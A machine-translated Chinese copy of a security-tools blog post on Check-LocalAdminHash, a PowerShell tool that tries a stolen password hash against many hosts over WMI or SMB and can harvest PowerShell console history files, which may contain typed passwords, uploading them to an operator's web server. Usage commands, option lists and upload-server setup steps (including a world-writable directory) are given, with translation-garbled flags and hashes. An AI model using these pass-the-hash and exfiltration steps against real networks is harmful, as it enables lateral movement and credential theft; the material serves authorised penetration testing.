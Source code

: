 # Check-LocalAdminHash:通过 WMI 或 SMB 对多个主机进行身份验证的 PowerShell 工具

> 原文：<https://kalilinuxtutorials.com/check-localadminhash/>

[![Check-LocalAdminHash : PowerShell Tool To Authenticate Multiple Hosts Over WMI Or SMB](img/bb802d43509f63cbc1dc73b740c034c5.png "Check-LocalAdminHash : PowerShell Tool To Authenticate Multiple Hosts Over WMI Or SMB")](https://1.bp.blogspot.com/-CSbbpMSYUbk/Xi64WEYEJNI/AAAAAAAAEnk/2w_cuK4HO9QXVQMlVoQM51Lh_iUAtGjPQCLcBGAsYHQ/s1600/Check-LocalAdminHash.png)

**Check-LocalAdminHash** 是一个 PowerShell 工具，它尝试使用密码哈希通过 WMI 或 SMB 对多个主机进行身份验证，以确定所提供的凭据是否是本地管理员。

如果你获得一个用户的密码散列，并想知道他们在网络上的本地管理员位置，这是很有用的。它本质上是我最喜欢的两个工具和一些我自己的代码的科学怪人。

这个脚本存在的原因是，在一次评估中，我想从网络上的每个系统收集所有 PowerShell 控制台历史文件(PSReadline)。PSReadline 控制台历史实际上是 bash 历史的 PowerShell 版本。

它可以包含许多有趣的东西，人们可以在终端上输入密码。因此，这个脚本中包含了一个选项，也可以过滤所有的 PSReadline 文件。这里有一点设置。有关设置，请参见自述文件的末尾。

**例题**

***对照 WMI*** 上的所有主机检查本地管理哈希

此命令将使用域“testdomain.local”来查找所有系统，然后尝试使用用户“test domain . local \ possible minuser”和 WMI 上的密码哈希对每个系统进行身份验证。

**Check-LocalAdminHash-Domain test Domain . local-user Domain test Domain . local-Username possible minuser-password hash e 62830 daed 8d bea 4 ACD 0 b 99d 682946 bb-all systems**

***导出所有 PSReadline 控制台历史文件***

此命令将使用域“testdomain.local”来查找所有系统，然后尝试使用用户“test domain . local \ possible minuser”和 WMI 上的密码哈希对每个系统进行身份验证。然后，它会尝试在每个系统上查找每个配置文件的 PowerShell 控制台历史文件(PSReadline ),然后将它们发送到 web 服务器。请参阅自述文件底部的服务器设置。

**Check-LocalAdminHash-Domain test Domain . local-user Domain test Domain . local-Username possible minuser-password hash e 62830 daed 8d bea 4 acd0b 99d 682946 bb-all systems-ExfilPSReadline**

***使用 CIDR 测距***

此命令将使用提供的 CIDR 范围来生成目标列表，然后尝试使用本地用户“PossibleAdminUser”和 WMI 上的密码哈希来验证每个列表。

**Check-LocalAdminHash-Username possible minuser-password hash e 62830 daed 8d bea 4 acd0b 99d 682946 bb-CIDR 192 . 168 . 1 . 0/24**

***使用目标列表和 SMB 并输出到文件***

此命令将使用提供的目标列表，并尝试使用本地用户“PossibleAdminUser”和 SMB 上的密码哈希对每个主机进行身份验证。

**Check-LocalAdminHash-Username possible minuser-password hash e 62830 daed 8d be a4 ACD 0 b 99d 682946 bb-target list C:\ temp \ target list . txt-Protocol SMB | Out-File-Encoding Ascii C:\ temp \ local-admin-systems . txt**

***单目标***

此命令尝试通过 SMB 针对系统 192.168.0.16 为用户管理员执行本地身份认证。

**Check-LocalAdminHash-target system 192 . 168 . 0 . 16-用户名 Administrator-password hash e 62830 daed 8d bea 4 ACD 0 b 99d 682946 bb-协议 SMB**

**也可阅读-[AlertResponder:AWS 无服务器应用模型的自动安全警报响应框架](https://kalilinuxtutorials.com/alertresponder/)**

***检查-LocalAdminHash 选项***

*   **用户名—**用于尝试验证的用户名。
*   **Password hash—**用户的密码哈希。
*   **target system–**用于验证尝试的单个主机名或 IP。
*   **target list–**每行扫描一个主机的主机列表
*   **all systems—**启用时利用 PowerView 模块枚举所有域系统的交换机。然后，该列表用于检查本地管理员访问。
*   **域—**这是 PowerView 将用于发现系统的域。
*   **用户域–**这是用于向每个系统进行身份验证的用户域。如果使用本地凭据而不是域凭据，请不要使用此标志。
*   **协议–**这是使用 WMI 还是 SMB 检查哈希的设置。默认为“WMI”，但将其设置为“中小企业”以进行检查。
*   **CIDR—**指定 CIDR 形式的网络范围，如 192.168.0.0/24
*   **线程—**默认为 5 个线程。(我遇到过一些设置线程数超过 15 的奇怪问题，有些结果没有返回。)
*   **ExfilPSReadline–**对于认证成功的每个系统，它运行 PowerShell 命令来定位 PSReadline 控制台历史文件(PowerShell 命令历史),然后将它们发送到 web 服务器。请参阅自述文件了解服务器设置。

***PSReadline 渗出设置***

**这是您的警告**，您将设置一个面向互联网的服务器，接受文件上传。通常，这是一件非常糟糕的事情。所以在这样做的时候一定要采取预防措施。我建议**锁定防火墙规则**，这样只有上传 PSReadline 文件的 IP 才能访问网络服务器。此外，虽然我们的主题是安全，这将与 HTTPS 连接工作得很好，所以设置您的域和证书，使 PSReadline 文件通过网络加密发送。你已经被警告了…

*   在你想发送文件的地方设置一个服务器。必须可以从每个系统通过 HTTP/HTTPS 访问该服务器。
*   从这个 repo 中复制 index.php 脚本，并将其放在 web 服务器的 web 根目录(/var/www/html)下的/index.php 中。
*   制作上传目录

**mkdir/var/www/html/uploads**

*   修改此目录的权限

**chmod 0777/var/www/html/uploads**

*   确保安装了 php

**apt-get 安装 php**

*   重启 Apache

**服务 apache2 重启**

*   在 Check-LocalAdminHash.ps1 脚本中，向下滚动到“Gen-EncodedUploadScript”函数，并修改“$ UnencodedCommand”下的“$Url”变量。指向你的网络服务器 index.php 页面。我还没有想出如何将 UploadUrl 变量传递到最终被编码并在目标系统上运行的那部分代码中，所以现在还是硬编码吧。

现在，当您使用-ExfilPSReadline 标志运行 Check-LocalAdminHash 时，它应该尝试将每个 PSReadline(如果有)发送到您的 web 服务器。

![](img/db0e39a7d37e5bf0947a1b7886fea49b.png)

**学分**

Check-LocalAdminHash 几乎是我最喜欢的两个工具 PowerView 和 Invoke-TheHash 的弗兰肯斯坦。95%的代码来自这两个工具。因此，这归功于 Kevin Robertson(@ Kevin _ Robertson)的 Invoke-TheHash，这归功于 Will Schroeder (@harmj0y)、Matt Graeber (@mattifestation)(以及任何其他在 PowerView 上工作的人)。没有这两个工具，这个脚本就不会存在。同时也要感谢史蒂夫·博罗什(@424f424f)在穿线和成为一个全面的令人敬畏的家伙方面的帮助。

[**Download**](https://github.com/dafthack/Check-LocalAdminHash)